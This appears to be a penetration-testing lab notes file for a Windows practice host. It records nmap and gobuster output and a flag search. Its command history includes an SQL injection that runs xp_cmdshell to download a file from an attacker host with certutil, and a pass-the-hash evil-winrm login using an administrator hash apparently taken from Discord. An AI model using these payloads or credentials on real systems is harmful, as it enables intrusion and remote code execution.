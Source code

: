 # VM 3 192.168.x.121
# Summary
- 
# Flag Location
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
- C:\Users\Administrator\Desktop\proof.txt
# Accounts
### Administrator
`evil-winrm -i 192.168.213.121 -u Administrator -H b2c03054c306ac8fc5f9d188710b0168>`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.159.121 --top-ports 1000`
```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```
```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```
```
## Netstat
`netstat -ano`
```
```
## Environment Vars
`Get-ChildItem Env:`
```
```
## Domain Controller Info
`nltest /dsgetdc:secura`
```
```
## API Endpoints
`gobuster dir -u http://192.168.159.121:80 -w /usr/share/wordlists/dirb/big.txt -p pattern`
```
/assets               (Status: 301) [Size: 156] [--> http://192.168.159.121:80/assets/]
/css                  (Status: 301) [Size: 153] [--> http://192.168.159.121:80/css/]
/fonts                (Status: 301) [Size: 155] [--> http://192.168.159.121:80/fonts/]
/js                   (Status: 301) [Size: 152] [--> http://192.168.159.121:80/js/]
/master               (Status: 301) [Size: 156] [--> http://192.168.159.121:80/master/]

```
# Services    


## Command History
```c
    gobuster dir -u http://192.168.159.121:80 -w /usr/share/wordlists/dirb/big.txt -p pattern
    gobuster dir -u 192.168.159.121 -w /usr/share/wordlists/dirb/common.txt -t 5
    // Attempt sql injection on website
    ...
    //using burp username field
    admin'; EXEC xp_cmdshell "certutil -urlcache -split -f http://<attack host IP addr>:8000/works"; -- -
    '

    // found on discord...
    evil-winrm -i 192.168.213.121 -u Administrator -H b2c03054c306ac8fc5f9d188710b0168
    Get-Command Invoke-Sqlcmd
    Invoke-Sqlcmd -ServerInstance "localhost" -Query "SELECT name FROM sys.sql_logins;"

```
